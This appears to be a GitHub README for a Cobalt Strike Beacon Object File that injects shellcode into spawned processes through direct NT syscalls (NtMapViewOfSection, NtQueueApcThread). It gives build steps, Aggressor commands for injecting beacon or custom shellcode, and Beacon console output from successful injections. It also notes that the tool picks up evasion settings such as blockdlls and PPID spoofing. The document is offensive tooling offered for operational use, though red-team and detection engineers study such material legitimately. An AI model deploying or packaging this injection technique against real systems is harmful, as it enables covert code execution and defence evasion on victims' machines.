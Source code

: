 ## Spawn with Syscalls Shellcode Injection (NtMapViewOfSection -> NtQueueApcThread) BOF (64-bit only)

NtCreateSection -> NtMapViewOfSection -> NtQueueApcThread -> NtResumeThead.
Uses `BeaconSpawnTemporaryProcess` to create the target process. 

Syscalls generated using @jthuraisamy's [SysWhispers](https://github.com/jthuraisamy/SysWhispers) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

Code adapted from @peperunas's [injectopi](https://github.com/peperunas/injectopi/blob/master/CreateSectionAPC/CreateSectionAPC.cpp)

## Compile

```
make
```

## Usage

Aggressor script included with the following commands:
- `static_syscalls_apc_spawn listener_name` - Injects shellcode for beacon into a spawned process. 
- `static_syscalls_apc_shspawn path_to_bin` - Injects custom shellcode into a spawned process.

> NOTE: As we're using the beacon API for process spawn, we're not using syscalls, so bear that in mind. Spawning in this way does give us the spawnto, blockdlls and ppid spoofing settings applied though.  

### Custom shellcode
```
beacon> static_syscalls_apc_shspawn calc.bin
[*] Syscalls Spawn and Shellcode APC Injection BOF (@ajpc500)
[*] Reading shellcode from: calc.bin
[+] host called home, sent: 6354 bytes
[+] received output:
Spawned Process with PID: 10480
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> static_syscalls_apc_spawn http
[*] Syscalls Spawn and Shellcode APC Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 267710 bytes
[+] received output:
Spawned Process with PID: 8648
[+] received output:
Shellcode injection completed successfully!
```
